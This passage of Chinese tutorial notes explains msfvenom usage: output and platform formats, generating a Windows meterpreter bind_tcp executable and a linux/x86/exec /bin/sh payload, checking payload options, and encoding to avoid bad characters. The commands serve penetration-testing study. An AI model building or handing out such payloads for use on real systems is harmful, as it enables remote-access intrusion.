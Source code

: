 按需要的格式进行输出：
十六进制hex编码形式 `\x0a`
如果用python写exploit，用`-f python`得到python代码。
如果用python写exploit，用`-f c`得到c代码。


生成一个exe格式的payload，如：
`msfvenom -p windows/meterpreter/bind_tcp -f exe`


**msf支持的输出格式**

```
msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```


### -a x64

-a x86

-a x86_64

```
msfvenom -p windows/meterpreter/bind_tcp --help-platform

Platforms
	aix, android, bsd, bsdi, cisco, firefox, freebsd, hardware, hpux, irix, java, javascript, linux, mainframe, multi, netbsd, netware, nodejs, openbsd, osx, php, python, ruby, solaris, unix, windows
```

	
-a不指定也可以，可在-p后的payload名称中明确指定architecture，如：

```
msfvenom -p linux/x86/exec CMD=/bin/sh
```

此payload指定了参数CMD

查看某个Payload具体需要哪些参数（ Required是yes则必需该参数）

`msfvenom -p linux/x86/exec --payload-options`

### 对payload进行编码

1.规避特殊字符  -b '/x00一个特殊字符列表'

msf会自动找一个合适的编码器规避payload中的这些“坏字符”:
`msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw`

```
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
```
